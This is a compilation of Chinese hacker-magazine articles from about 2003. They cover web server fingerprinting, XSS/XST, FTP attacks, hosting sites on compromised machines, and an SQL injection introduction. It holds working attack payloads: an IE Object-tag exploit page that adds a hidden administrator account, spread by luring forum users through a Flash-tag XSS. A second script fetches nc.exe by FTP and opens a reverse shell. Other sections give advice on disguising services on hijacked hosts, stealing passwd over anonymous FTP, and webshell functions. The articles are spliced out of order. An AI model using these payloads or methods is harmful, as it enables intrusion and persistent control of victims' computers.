问题是即使你有很多的专家来加强你网络的安全,但是你还是要依赖Web应用程序开发者来加强你的Web安全。他们是否能够阻止狡猾黑客的攻击?是否有足够的能力来阻止一个只读了SQL Injection入侵指南的“脚本小子”?因此现在越来越多的人怀疑 Web 应用程序的代码并不像意想的那样安全。本文将针对 Web安全讲以下3个方面 一是Web服务器指纹鉴定 二是跨站脚本技术 三是实例讲解。

### Web 服务器指纹鉴定

一般我们来简单地辨别主机运行的Web服务器版本的方法是: telnet到该主机的80端口,然后发送 get命令,比如下面的例子:

```
C:\telnet www.longker.com 80
Get
HTTP/1.1 400 Bad Request
Server: Microsoft-IIS/5.0
Date: Fri, 05 Sep 2003 02:57:39 GMT
Content-Type: text/html
Content-Length: 87
```

```
html
<html><head><title>Error</title></head>
<body>The parameter is incorrect. </body>
</html>
```

注意到黑体的那行没有,它很清楚地告诉我们运行的Web服务器版本是Microsoft-IIS/5.0。读者或许问了,那么我们能否得到更多的信息呢? 不同的Web服务器版本信息有什么不同? 还是来看例子,通过例子大家应该清楚地发现一些东西。这里我们需要用到“瑞士军刀”——NetCat,当然你也可以使用Windows的Telnet来实现,主要使用的参数是“Options * http/1.1”,网址均以www.target.com 代替,请注意黑体部分。

### 1. IIS4.0

好像目前使用IIS4.0的已经不多了,好不容易找到一个。下面来实验:

```
sh-2.05b# nc www.target.com 80 //输入后回车(下同)
OPTIONS * HTTP/1.1 //输入后回车(下同)
Host:www.target.com //输入后回车 如果没有出现信息,多按几次(下同)

HTTP/1.1 200 OK
Server: Microsoft-IIS/4.0
Date: Fri, 05 Sep 2003 02:13:48 GMT
Public: OPTIONS, TRACE, GET, HEAD, POST, PUT, DELETE
Content-Length: 0
```

#### 2. IIS 5.0

下面是 IIS 5.0 的响应信息，你会得到更多的内容：

```http
sh-2.05b# nc www.target.com 80
OPTIONS * HTTP/1.1
Host: www.target.com
HTTP/1.1 200 OK
Server: Microsoft-IIS/5.0
Date: Fri, 05 Sep 2003 02:00:24 GMT
Content-Length: 0
Accept-Ranges: bytes
DASL: <DAV:sql>
DAV: 1, 2
Public: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Allow: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Cache-Control: private
```

下面我们就可以来做个比较，相信你能发现 IIS 4.0 和 IIS 5.0 的不同。

```
IIS4.0 —— Public: OPTIONS, TRACE, GET, HEAD, POST, PUT, DELETE
IIS5.0 —— Public: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
```

我们再来看看 Web 服务器的另一巨头——Apache。它是最流行的 Web 服务器之一。快速、可靠，可通过简单的 API 扩展，Perl/Python 解释器可被编译到服务器中，完全免费，完全源代码开放。

#### 3. Apache 1.3.x

这里我们选择运行在 `*nix` 系统的 Apache 为例：

```http
sh-2.05b# nc www.target.com 80
OPTIONS * HTTP/1.1
Host: www.target.com
HTTP/1.1 200 OK
Date: Fri, 05 Sep 2003 02:04:47 GMT
Server: Apache/1.3.27 (Unix) PHP/4.2.3
Content-Length: 0
```

```
Allow: GET, HEAD, OPTIONS, TRACE
```

#### 4. Apache 2.0.x

```http
sh-2.05b# nc www.target.com 80
OPTIONS * HTTP/1.1
Host: www.target.com
HTTP/1.1 200 OK
Date: Fri, 05 Sep 2003 02:08:45 GMT
Server: Apache/2.0.40 (Red Hat Linux)
Allow: GET, HEAD, POST, OPTIONS, TRACE
Content-Length: 0
Content-Type: text/plain; charset=ISO-8859-1
```

我们再来比较一下，也能够清楚地看出不同：

```
Apache 1.3.x —— Allow: GET, HEAD, OPTIONS, TRACE
Apache 2.0.x —— Allow: GET, HEAD, POST, OPTIONS, TRACE
```

看到了吧，如果远程主机允许 `OPTIONS *` 参数并且没有什么出入的话，得到的信息已经足够让我们判别流行 Web 服务器的版本了。当然这还是不够的，我们还可以通过 Web 服务器自己特定的一些响应消息以及 Web 服务器的状态信息来进行判别，或者是结合扫描器（Nmap 等）来判别。

### 跨站攻击

我们现在提到的跨站脚本（Cross-Site Scripting）一般是指在远程 Web 页面的 HTML 代码中插入的具有恶意目的的数据。用户认为该页面是可信赖的，但是当浏览器下载该页面时，嵌入其中的脚本将被解释执行。有时候跨站脚本被称为“XSS”，这是因为“CSS”一般被称为层叠样式表，这很容易让人困惑。如果你听某人提到 CSS 或者 XSS 安全漏洞，通常指的是跨站脚本。这里我们将引入一个新的东西，那就是 XST，或者是 CST（Cross-Site Tracing）。

读者问了，你引入这个东西，是不是它能做 XSS 不能做的？是不是更有危害性？确实是这样的，XST 可以绕过一般的 HTTP 验证以及 NTLM 验证，这个是否让你更有兴趣？为了清楚地让你知道两者的不同，我们来做个比较。

#### 1. 发起条件的不同

- **(1) XSS**
  - 需要存在跨站脚本漏洞的 Web 应用程序，比如 ASP、CGI、PHP 等。
  - 需要用户点击链接或者是访问某一页面，比如动网的 Flash 标签跨站漏洞。
- **(2) XST**
  - 需要目标 Web 服务器允许 Trace 参数，看上面的实验就知道了，流行的 Web 服务器均支持该参数！
  - 需要一个用来存放 XST 代码的地方。
  - 还有一个是该站点存在跨域漏洞。

```
IIS4.0     -- Public: OPTIONS, TRACE, GET, HEAD, POST, PUT, DELETE
IIS5.0     -- Public: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Apache 1.3.x -- Allow: GET, HEAD, OPTIONS, TRACE
Apache 2.0.x -- Allow: GET, HEAD, POST, OPTIONS, TRACE
```

#### 2. 发起方式的不同

- **(1) XSS**
  - 攻击者将恶意代码嵌入访问者将要访问的页面，或者是提供一个连接到恶意代码的链接给访问者。访问者浏览该恶意内容或者是点击该链接，恶意代码将访问者的 Cookie 收集起来进行 Cookie 欺骗，或者是在访问者的电脑执行程序，比如后门木马或者是在系统上添加管理员账户。举个例子，就是利用 IE 的 Object 漏洞并结合动网 Flash 标签或者是 WDB 论坛的 IMG 标签跨站漏洞进行攻击。我们将在后面介绍利用 IE 新漏洞的跨站脚本攻击。
- **(2) XST**
  - 攻击者将恶意代码嵌入一台已经被控制的主机上的 Web 文件，当访问者浏览时，恶意代码在浏览器中执行，然后访问者的 Cookie、HTTP 基本验证以及 NTLM 验证信息将被发送到已经被控制的主机，同时发送 Trace 请求给目标主机，导致 Cookie 欺骗或者是中间人攻击。举个例子，就是前一阵研究的比较多的 SMBRelay，也是通过这样的方法来实现的。具体可以去参看相关文章和动画教程，网上很多。

相同的是 XST 和 XSS 攻击都具有很大的欺骗性，可以对受害主机产生危害，而且这种攻击是多平台多技术的，我们还可以利用 ActiveX 控件、Flash、Java 等来进行 XST 和 XSS 攻击。

### 实例讲解

因为网上关于 XST 中的 SMBRelay 攻击的文章很多，因此我们这里主要讲下一种比较新的 XSS 攻击，结合的是 IE 最新的 Object 漏洞。这次 IE 的漏洞级别很高，可以执行攻击者指定的命令，下面我们来看看具体的漏洞描述。

由于 Internet Explorer 在处理对象标记时没有正确处理要被装载的文件参数，因此远程攻击者可以利用这个漏洞构建恶意页面，诱使用户访问，使用户 IE 自动运行嵌入到 HTML 的任意代码。这个主要是由 IE 的“Object”引起的。“Object”标记用于插入 ActiveX 组件等对象到 HTML 页面。“Object”标记的“Type”属性用于设置或获取对象的 MIME 类型。通常合法 MIME 类型包括“plain/text”或“application/hta”、“audio/x-mpeg”等。指定远程对象数据位置的参数没有充分检查被装载的文件属性，攻击者可以构建恶意页面，诱使用户访问来运行恶意页面指定的程序。

由于 Windows 2003 的 IE 使用了“Enhanced Security Configuration Mode”模式，默认是禁止了 ActiveX 控件的，因此此漏洞在 Windows 2003 IE 级别为中等。

漏洞描述中，我们得到的信息是我们可以修改 MIME 映射，然后构建恶意网页诱使用户上当，进而在用户主机上执行事先设置好的指令。如何诱使访问者上当呢？我们不可能把地址傻傻地发给他们，毕竟现在大家都是有一定的安全意识的。那么怎么做？由于动网的 Flash 标签存在漏洞，可以引起跨站攻击，导致用户被引向恶意网页，而这个漏洞的利用方法又很简单，而且效果很好。我们可以在论坛里发个比较有诱惑性的帖子来实现欺骗，让用户去看我们事先设计好的 Flash，然后会被带到我们放了恶意代码的网页，接下来，呵呵，不知不觉地就执行了我们的指令，这当然比傻傻地发个网址给他们来的好吧？具体怎么实现看下文。

增加迷惑性，最好把这个页面设计得好点，讲点爱情故事什么的，看你的想象力了。接下来就是让人来上钩了，这里我们就用动网的 Flash 标签跨站漏洞来实现。如何使 Flash 文件运行后引向我们设计的网页呢？看下面：


我们先来设计含有恶意指令的网页。做网页之前需要在自己的肉鸡上修改 IIS 的映射，打开 IIS 管理器，看站点的属性，切换到“HTTP 头”项，这里有个 MIME 映射项，点“文件类型”，出现窗口，点“新类型”，好了，“关键扩展名”里填`.mm`，当然你也可以指定其他的；“内容类型”里填`application/hta`，按确认成功添加，如图 1 所示。

新建一个 Flash，然后选中第一帧点击右键，选择“动作”，找到“浏览器／网络”下的“GetUrl”，双击，在“URL”里输入我们在肉鸡上建立的恶意网页的地址，比如是 `http://127.0.0.1/test.htm`，这里当然是要根据实际情况来的。如图 2 所示。


下面来构建网页，先建立 `test.htm`，源文件如下：

```html
<html>
<object data="1mm.mm">
</object>
</html>
```

存为 `test.swf`，也放到肉鸡上，比如地址是 `http://127.0.0.1/test.swf`，OK，一切已经做好了，去找个没有打补丁的论坛发个帖子吧，标题写得充满诱惑力点，比如“我的爱情故事”，内容是：

这里有个 `1mm.mm`，你也可以换成别的，要注意的是 `.mm` 后缀必须与你在 MIME 映射里设置的一样。我们的目的是想在被攻击者的系统里添加一个用户名是 `longker`，密码是 `hacker` 的管理员账户，代码是这样的：

```text
[flash=500,350]http://127.0.0.1/test.swf[/flash]
```

提交后，浏览者首先被 Flash 文件带到我们的恶意网页，然后就执行了我们的指令。因此只要浏览此页面并且没有打该补丁的 Win2k/XP/NT 用户，就会在他的系统里建立我们设置的管理员账户，可怕吧？当然，除了 Flash 标签外，我们还可以用其他的办法来实现，比如 IMG 标签等。

```html
<html>
<object id="wsh" classid="clsid:F935DC22-1CF0-11D0-ADB9-00C04FD58A0B"></object>
<script language="vbscript">
set wshshell=createobject("wscript.shell")
a=wshshell.run("cmd.exe /c net user longker hacker /add",0)
b=wshshell.run("cmd.exe /c net localgroup Administrators longker /add",0)
window.close
</script>
</html>
```

好了，这样我们就把恶意网页构建好了。

### 后记

Web 攻击应该是多方面的，上面我们没有谈 SQL Injection 这个现在比较流行的 Web 入侵技术，那是因为大家研究的比较多，网上文章资料也比较多，推荐的是 ISNO 写的《SQL Injection 攻击技术》，这里就不再赘述。由于个人水平有限，有错误的地方请大家原谅，当然如果大家有更好的方法和经验，还请不吝与我交流。

当 RPC 溢出漏洞流行的时候，我相信许多黑友手上都储备了大量的 3389 肉鸡。大家都用肉鸡来做什么呢？做代理、做放黑软的 FTP 服务器、做网站，还是试验不同后门工具？更有无聊的人，像我整天用台湾肉鸡来申请 QQ。好像这一切都玩得厌了，有没有新鲜一点的东东？当然了，我就来教大家用肉鸡来构建一个完美的可以隐藏的免费虚拟主机。

**难度等级** 初级  
**前置知识** Internet 服务器的配置、虚拟主机的定义

## 在肉鸡上构建一个完美的虚拟主机

文 / lcx

什么是虚拟主机呢？我在一家大规模的 IDC 供应商的主页上查到如下定义：虚拟主机是使用特殊的软硬件技术，把一台运行在 Internet 上的主机分成一台台“虚拟”的主机，每一台虚拟主机都具有独立的域名，具有完整的 Internet 服务器（WWW、FTP、E-mail 等）功能，虚拟主机之间完全独立，并可由用户自行管理。明白了定义，我们开工吧，在肉鸡上构建一个丝毫不逊于收费的虚拟主机。

第一，根据虚拟主机的定义，我们要有一个独立的域名。当然，这个域名不是像 `my.126.com` 那样的转向域名，而是可以和肉鸡 IP 地址绑定的域名。什么是绑定呢？通俗一点讲，像你有一个域名是 `www.hacker.com`，那么你网站内所有的网页都可以用此域名直接解析表示，访问论坛可以用 `http://www.hacker.com/bbs`，访问留言可以用 `http://www.hacker.com/guest`，访问你想设的地址可以用 `http://www.hacker.com/你想设的url目录/` 等等。但是像 `126.com` 等的转向域名就不可以了，像我网站的域名是 `http://haiyangtop.126.com`，但我无论如何不能用 `http://haiyangtop.126.com/bbs` 指向我放在任何空间上的论坛。那么独立的域名如何得到呢？难道我们要去买国际域名吗？不用的，可绑定的免费域名可以申请到的，请跟我来，打开 `http://www.ns.tc` 网站，点页面左栏的 Sign Up Now，申请一个你喜欢的域名吧。我申请的是 `lcx.ns.tc`（图 1）。不过要提醒你的是，申请的时候，最好不要用 163 的邮箱，会收不到发给你的密码的。我就申请了一个 `hacker.ns.tc` 的域名，注册是成功了，但却没有收到信，一个很好的域名作废了。


图 1

申请成功后，用 ns.tc 发到你邮箱里的密码登录，在登录后的页面里，写入你的一个肉鸡 IP 地址，点“Renewal of an IP Address”按钮提交（图 2）。大约过几小时后，此绑定的域名就生效了，此时打开这个域名，会指向肉鸡的原有默认网站地址。我们当然不希望这样，申请的域名要指向自己放在肉鸡上的网站才可以呀。我们的工具主角登场了，银色巢穴有一款域名绑定软件，下载地址是：`http://www.yscx.net/list.asp?id=71`。我们先将此软件压缩包里的一个 `fmulti.dll` 和一个 `ff1.exe` 都传到肉鸡的 `%systemroot%\system32` 目录下，记住一定要在这个目录下，这软件使用后才会生效，然后在肉鸡的注册表的 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W3SVC\Parameters` 下，把 Filter DLLs 修改成为 `fmulti.dll` 的地址（图 3）。


图 2


修改完后，再打开 `ff1.exe`，在由上到下的输入框里依次填入域名、域名、你要放网站的目录。像我写的就是 `lcx.ns.tc`、`lcx.ns.tc` 和 `c:\winnt\system32\lcx`（图 4）。输入完毕，用 net 命令重新启动一下 W3SVC（图 5）。


一切做完后，我在 `c:\winnt\system32\lcx` 目录下建一个 `default.htm` 默认首页，此首页的内容就是我网站的首页了，此时再打开 `lcx.ns.tc`，你会发现什么？哈哈，一个绑定空间的域名生效了。在 `c:\winnt\system32\lcx` 这个目录下，我就可以放置我想放置的内容了。假如我放了一个动网论坛，位置是 `c:\winnt\system32\lcx\dwbbs`，那么我就可以用 `http://lcx.ns.tc/dwbbs/index.asp` 直接来访问此论坛，这样访问是不是比你用转向域名跳转后在 IE 地址栏里显示一大串的 URL 地址酷很多？当然，要说明的是，我们在做这一切的前提是肉鸡是 W2K 系统，默认装了 IIS 管理器，并且开了一个 80 端口的 Web 服务。只有这样，我们做的绑定域名才会有效，而且我们做的虚拟主机是支持 ASP 程序的。

第二，根据虚拟主机的定义，我们做的虚拟主机还要具有完整的 Internet 服务器（WWW、FTP、E-mail 等）功能。此时，我们的 `lcx.ns.tc` 虚拟主机已具备了 WWW 的功能，你可以用 `http://lcx.ns.tc` 访问到。我们再给其做一个 FTP 功能，这个虚拟主机就很完美了。Hotmail 写了一个很小的 FTP 服务器 TinyFTPD，目前最高版本是 1.4。不过，它只是一个命令行的工具，在肉鸡上配置使用过后，如果再退出了肉鸡的话，它就不会生效了。我们还需要一个工具 ntsrv，将 TinyFTPD 配置成服务状态来使用。我们先来了解一下 TinyFTPD 是如何工作的，我们将其传到肉鸡上，执行如下命令：

`TinyFTPD 2121 55555 lcx 123456 c:\winnt\system32\lcx all -hide`

意思是说在肉鸡上建了一个 FTP 服务器，端口是 2121，监听端口是 55555，用户名是 lcx，密码是 123456，FTP 的服务器目录是 `c:\winnt\system32\lcx`（这里要和 `lcx.ns.tc` 的 WWW 目录对应，这样才会有虚拟主机的味道），`all` 是具有所有的写入、修改、删除、下载等权限，`-hide` 指关掉 CMD 对话框该命令仍然执行（详细使用方法请自行看帮助吧）（图 6）。明白了这些，我再来讲解用 ntsrv 将 TinyFTPD 命令如何来配置成服务启动。我们先来用记事本写一个


ntsrv.ini，内容如下：

```ini
[Settings]
ServiceName = NETWORK JAVA
LogEnable = 0
ProcCount = 1
[Process0]
CommandLine =TinyFTPD.exe 21 55555 lcx 12346
C:\winnt\system32\lcx all -hide
PauseStart = 1000
PauseEnd = 1000
UserInterface = No
```

第二行的 `NETWORK JAVA` 指的是你指定的服务名，你可以起个更艺术的可以迷惑肉鸡管理员的服务名字，使其不敢轻易删掉此服务。第三行的 `LogEnable = 0` 中的 `0` 表示程序不会自动生成一个日志，如果是 `1` 就会生成一个叫 `ntsrv.log` 的文件，里面记录了服务启动及启动配置文件中的程序情况。第三行 `ProcCount = 1` 表示只有一个程序加载在服务里。第六行你已经明白了，最后一行表示程序执行时会在后台被执行，其他行一切默认即可了。`ntsrv.ini` 配置好以后，我们将 `ntsrv.exe` 与它放在一起一块传至肉鸡的 `c:\winnt\system32` 下，执行 `ntsrv -install`、`net start “你在ntsrv.ini配置的服务名”` 这两个命令后，肉鸡的 FTP 服务器配置好了（图7）。（附此两个小工具的下载地址：http://haiyangtop.uni.cc/xnzj.rar）

第三，收尾工作。我们的 `lcx.ns.tc` 的虚拟主机已经配置完毕了。如果你想再做一个 E-mail 服务器也不是不可以的，网上也有很多小巧精致的 E-mail 服务器软件，像 IMail、EasyMail、ArGoSoft 等等，但我觉得已经没有必要了，这个虚拟主机足够我们用的了。做完了虚拟主机，当然随之而来的工作是清除日志，打好肉鸡安全隐患的补丁，再留几个好后门了。最重要的是隐藏好你的网站目录，一般用一个 `attrib +h +s 你的目录` 就可以隐藏了，但这一切就不在本文的讨论范围之内。最后，我要提醒你，如果你有重要文件放在肉鸡的虚拟主机上，可以记得经常备份哟，丢了的话 lcx 可不负责。:-)

（上接第80页）

```vbscript
Set t = fs.CreateTextFile("ftp.txt", True)
t.WriteLine("open 127.0.0.1")
t.WriteLine("anonymous")
t.WriteLine("xx@xx.com")
t.WriteLine("bin")
t.WriteLine("lcd %windir%\system32")
t.WriteLine("get nc.exe")
t.WriteLine("bye")
t.Close
wsh.Run "command /c ftp -s:ftp.txt", 0, true
fs.DeleteFile("ftp.txt")
wsh.Run "command /c %windir%\system32\nc.exe 127.0.0.1 214 -e cmd.exe", 0, true
window.close
</script>
</html>
```

**编注：** 以上这个文件如果直接以 htm 为后缀，当我们点击运行它时，系统会提示此页存在 ActiveX 控件，可能不安全等信息。而使用以上方法，尽管 IE 安全级别为最高，也一样没有任何提示。

这段代码可以让目标机器自动从你指定的 FTP 里面下载指定文件并且按照你给定的参数运行。

此外，在此之前你需要设置一下你的 IIS 服务器，在你的 Web 服务属性里面选择“HTTP 头”，在里面的“MIME 映射”设置里面点击“文件类型”，然后选择“新类型”，在“关联扩展名”里面填入 `.dead`（就是 M$.dead）的后缀，在“内容类型(MIME)”里面填入 `application/hta`，这样当别人打开你的 M$.html 的时候，就会下载并且运行你指定的文件。

**提醒：** 为了测试方便，文中例子采用本地 IP，大家可以灵活变换，不过，我们不鼓励大家用于非法目的。

而且，你还可以把做好的页面用 E-mail 的方式发送给受害人，这样当受害人打开邮件浏览时，暗藏在邮件里面的恶意代码也能执行。但是，这种方法只适用于以 Web 方式浏览邮件的用户，如果把邮件通过 OE 或其他邮件工具下载到本地浏览的话就会弹出安全提示了。这里介绍一个最简单的发送方式：打开 OE，点“创建新邮件”，选择“网页”，然后把做好的恶意网页的 URL 地址填上去，再发送给受害人即可。

明白这个漏洞有多么危险了吗？千万记得不要随便打开陌生人给的网页哦！

“FTP”这个词是文件传送协议的缩写（File Transfer Protocol），FTP 是在 Internet 上传送文件的规定的基础。我们提到 FTP 时不只是认为它是一套规定，FTP 是一种服务，它可以在 Internet 上使得文件可以从一台 Internet 主机传送到另一台 Internet 主机上。通过这种方式，主要靠 FTP 把 Internet 中的主机相互联系在一起。FTP 采用 C/S 结构，对 FTP 发动攻击无非是对服务器端进行溢出或对用户名进行猜解，本文将从实例的角度分析如何进行 FTP 攻击。


## 分析从FTP发动的攻击

文／朱平

像大多数的 Internet 服务一样，FTP 使用客户机／服务器系统，你在使用一个名叫 FTP 的客户机程序时，就和远程主机上的服务程序相连了。理论上讲，这种想法是很简单的。当你用客户机程序时，你的命令就发送出去了，服务器响应你发送的命令。例如，你录入一个命令，让服务器传送一个指定的文件，服务器就会响应你的命令，并传送这个文件；你的客户机程序接收这个文件，并把它存入你的目录中。

下面进入本文重点——从 FTP 发动的攻击。FTP 的攻击无非就是对用户的猜解和 FTP 服务器的溢出，及利用 FTP 传送 Webshell 到主机上执行命令（不完全版）！那我们就来复习一下旧的东西，因为这些几乎也是大家都很熟悉的知识！

现在，网上还很流行的就是很多 FTP 都可以用 anonymous 或 guest 来登录，本来没有什么的，不过还是可以利用的啦，比如你可以用 cwd 命令来判断用户，有些 FTP 服务器由于没有了字符的处理，比如 `../../` 等，就可以下载 `passwd`。

匿名 FTP 在网上很常用，一些站点在不确定匿名用户权限或者目录安全的情况下，开通匿名 FTP，这样势必给系统安全带来隐患。下面是一个实例：

```text
D:\>FTP
FTP>open 192.168.25.1
Connected to 192.168.25.1
220 chi! Microsoft FTP Service (Version 5.0)
User (192.168.25.1:(none)):anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
password:（看不见的）
530 User 111@ cannot log in.
Login failed.
```

### 一、匿名FTP和用户的猜解

FTP 允许你把文件从一台 Internet 计算机传递到另一台计算机上。但是，这里有一个基本的约束：如果你没有被正式授权的话，就不能进入计算机。也就是说，你只有在有了一个用户标识和口令之后，才能在计算机上拷贝文件。

而现在很多服务器为了方便用户的下载需要，开通不需要口令的 FTP 服务，因此也就产生了匿名 FTP。作为用户，你本来不注册就不能和远程主机联系并“下载”文件，但是，这个管理系统提供了一个指定的用户标识 Anonymous（匿名），为你提供 FTP 服务（其实只是简化了确认身份的程序而已，并不确认用户身份的）。

上面的是一个 FTP 的登录过程，其实真正的登陆过程是 FTP 发给 FTP 服务器 USER anonymous，然后就会返回个辨认值，比如说上面的 331，之后就会等待你输入密码，如果成功即登录到服务器，不然就要重试。

现在，网上还很流行的就是很多 FTP 都可以用 anonymous 或 guest 来登录，本来没有什么的，不过还是可以利用的啦，比如你可以用 cwd 命令来判断用户，有些 FTP 服务器由于没有了字符的处理，比如 `../../` 等，就可以下载 `passwd`。

```text
C:\> FTP
FTP> open 192.168.25.3
Connected to 192.168.25.3
220 chi FTP server (version wu-2.6.2-5) ready.
User (192.168.25.3:(none)): anonymous
331 Guest login ok, send your complete e-mail address as password.
Password: （我写了 anonymous，就上了）
230-The response 'anonymous' is not valid
230-Next time please use your e-mail address as your password
230-for example: joe@192.168.25.1
230 Guest login ok, access restriction apply.
FTP> cd /etc
250 CWD command successful.
FTP> ls
200 PORT command successful.
550 Bad directory components
FTP> get passwd
200 PORT command successful.
150 Opening ASCII mode data connection for passwd (79 bytes).
226 Transfer complete.
FTP: 84 bytes received in 0.00Second 84000.00Kbytes/sec
FTP>
```

```text
FTP> /bin/csh
nobody:*:65534:65534:Unprivileged user:/nonexistent:/nonexistent
joe:*:1001:1001:User &:/home/joe:/bin/csh
norm:*:1000:1000:Norman Rossman:/home/norm:/bin/csh
khan:*:1008:1008:RobRose Net, khans.com, Robert Jenkins:/home/khan:/bin/csh
robrose:*:1056:1056:Robert Jenkins, robrose.com:/home/robrose:/bin/csh
secret:*:1002:1002:secretofile.com:/home/secret:/bin/csh
```

“*” 是 shadow 过的，不过不重要，最少我们也知道对方的用户名了！还有一种得到用户名的方法，就是用 cwd 命令，不过这个方法没有多大的可行性！

现在我们有了主机上的用户名，我想你已经成功一半了。下载了，你就可以利用枚举用户密码来得到用户密码，也就是所谓的用户密码的猜解。对用户密码的猜解，我看几乎每个扫描器都有这个功能，xscan3.0 就不错了。还有的就是，你对如何扫到密码和用户的过程了解吗？其实不难的！当你在命令行中用 FTP 命令连接某个 FTP 服务器的时候，其实也可以用那个来猜密码的，不过是手动的，那样的做法太慢了，所以就要自己写点东西来加快进程！

在自己的电脑上的目录下就会找到 passwd 文件，用文本打开就可以了，类似如下内容：

```text
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/nonexistent
operator:*:2:20:System &:/usr/guest/operator:/bin/csh
bin:*:3:7:Binaries Commands and Source:/:/nonexistent
games:*:7:13:Games pseudo-user:/usr/games:/nonexistent
news:*:8:8:News Subsystem:/:/nonexistent
man:*:9:9:Mister Man Pages:/usr/share/man:/nonexistent
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/libexec/uucp/uucico
xten:*:67:67:X-10 daemon:/usr/local/xten:/nonexistent
pop:*:68:6:Post Office Owner:/nonexistent:/nonexistent
FTP:*:999:999:anonymous FTP account:/home/
```

### 二、FTP 服务器的溢出

接下来的就是对 FTP Server 的溢出；网上最常见的就是 wu-FTP Server 的溢出攻击了！

和大多数溢出一样，FTP 溢出属于缓冲区溢出。缓冲区溢出的实质是希望通过控制程序的执行顺序，来获得 root 或其他权限，从而控制系统。原理：缓冲区是程序运行时计算机内存中的一个连续的块，它保存了给定类型的数据。但问题随着动态的分配变量而出现，为了不占用太多内存，一个有动态分配变量的程序在运行时，才决定给它们多少内存。如果程序在分配的内存里放入太多的数据，就会使程序溢出了。

套话不多说了，我想大家还是更喜欢看实例：

```text
Red Hat Linux release 7.3 (Valhalla)
Kernel 2.4.18-3 on an i686
login: chi
Password:
```


```c
for(i=0;i<=50;i++)
{
    if(buf[i]=='w')
        if(buf[i+1]=='u')
            fputs(buf,out);
}
```

至于如何得到对方主机的 banner，用 superscan 来扫描不错，扫个大点的区，还有就是只对 21 端口进行扫描并显示主机回应。扫完后你可以一个一个地看，看到是 `wu-FTP` 的就可以拿上去试一下。不过个人觉得很累，就写了个把 superscan 扫描结果简单化的小东西啦！自己用 TC 编下就可以了！程序如下：

### 三、利用 FTP 上传个 shell；闯到 Web 端口执行命令

当你拿到了一个普通用户名和密码，对方却没开 23 端口（Telnet 服务）的时候，或者你拿到 root 权限，想留个安全的后门的时候，Webshell 一定是最好的选择。

其实写一个 Webshell 很简单，无非就是调用 PHP、Perl、ASP 中查看文件、执行命令等函数。这方面的文章，红色警戒的 analysist 写过很多。下面是一份比较详细的容易出错的函数列表：

```c
#include <stdio.h>
main(int argc,char *argv[])
{
    FILE *in;
    FILE *out;
    char buf[1024];
    int i,j;
    if(argc<3)
    {
        printf("usage: %s <inputfile> <outputfile>",argv[0]);
        exit(0);
    }
    in = fopen(argv[1],"r");
    if(in == NULL)
        puts("file open error!");
    out = fopen(argv[2],"w");
    if(out == NULL)
        puts("file write error!");
    while(fgets(buf,65,in) != NULL)
        ...
}
```

- **<PHP代码执行>**
  - `require()`：读取指定文件的内容并且作为 PHP 代码解释。
  - `include()`：同上。
  - `eval()`：把给定的字符串作为 PHP 代码执行。
  - `preg_replace()`：当与 `/e` 开关一起使用时，替换字符串将被解释为 PHP 代码。
- **<命令执行>**
  - `exec()`：执行指定的命令，返回执行结果的最后一行。
  - `passthru()`：执行指定命令，返回所有结果到客户端浏览器。
  - `` `...` ``：执行指定命令，返回所有结果到一个数组里。
  - `system()`：同 `passthru()`，但是不处理二进制数据。
  - `popen()`：执行指定的命令，把输入或输出连接到 PHP 文件描述符。
- **<文件泄露>**
  - `fopen()`：打开文件，并对应一个 PHP 文件描述符。
  - `readfile()`：读取文件的内容，然后输出到客户端浏览器。
  - `file()`：把整个文件内容读到一个数组中。
- **实例：**
  - `<?phpinfo()?>`


图1

由于执行的是 nobody 的权限，很有必要把它绑定在只提供下载的文件夹下。还有就是文件夹属性的安全，不能为了图一时方便，更改文件夹属性，即使改了也要及时地更正回来。一些重要的系统文件强烈建议设置权限。

把上面的代码另存为 `config.php`，执行后效果如图1所示：

大家看到什么了吗？对，很多系统信息。同理，大家看看利用命令执行函数及文件泄露函数得到的效果，如图2、图3所示。


图2

是不是很实用？同理，这些效果也能在 ASP 和 CGI 中看到，我就不多说啦。大家可以到 `www.9836.com` 下载网上收集来的 Webshell（http://9836.com/webshell.rar）。还有，大家要注意的是，Webshell 执行的是 nobody 的权限，在远程主机的主页目录一般是没有写权限的，所以要生成程序时最好利用 `quote site chmod 777 cgi-bin` 更改主页目录属性。

**防范：** 还是老话，多打补丁，多检测主机安全。

在国内，一些管理员总认为主页能显示就说明服务器没被入侵，被黑客入侵就是主页被改，或者数据删除导致主页不能正常显示。以至于他们常常一两个月才检测一遍，或者更长。其实，他们的服务器早就被人玩得惨不忍睹了。对于匿名 FTP，我想最主要的就是限定匿名用户为 root 只读，如：`passwd`、`inetd.conf` 等。对于 FTP 服务溢出的防范，我想只有多去些安全网站，如国内的绿盟科技、安全焦点、中华补天。国外的有 Security Focus、Packetstorm。多看些安全文档，了解最新的漏洞信息，多打补丁。对于 Webshell 的防范，主要是限定些服务函数就能做的，最主要还是用户名和密码的安全。一个小小的漏洞或者一时疏忽足以毁了一个大系统。


图3

## SQL Injection

## 攻击技术


文 / isno

### 一、前言

黑网站的方法很多，通过Web来攻击是其中很主要的一种，而通过Web黑网站的方法也很多，利用数据库来攻击也是其中的一种。大多数使用Web脚本语言（ASP、PHP等）+后台数据库系统（MSSQL、Oracle等）的Web网站都可能存在着SQL Injection漏洞。这种漏洞的普及程度绝不亚于当年的UNICODE和IIS溢出，而且很关键的一点是，这类漏洞不是依靠安装系统补丁或进行简单的安全配置（如安全策略等）就能够解决的。

前段时间，我对国内一些使用ASP+SQL Server（或Access）的电子商务网站进行了简单测试，其中大概60%以上存在SQL Injection的问题，而这其中的绝大多数完全没有对用户输入进行过滤，还有一些仅对部分用户输入数据进行了过滤；大多数存在此类漏洞的网站不仅可以入侵数据库，而且可以利用来进入其操作系统。

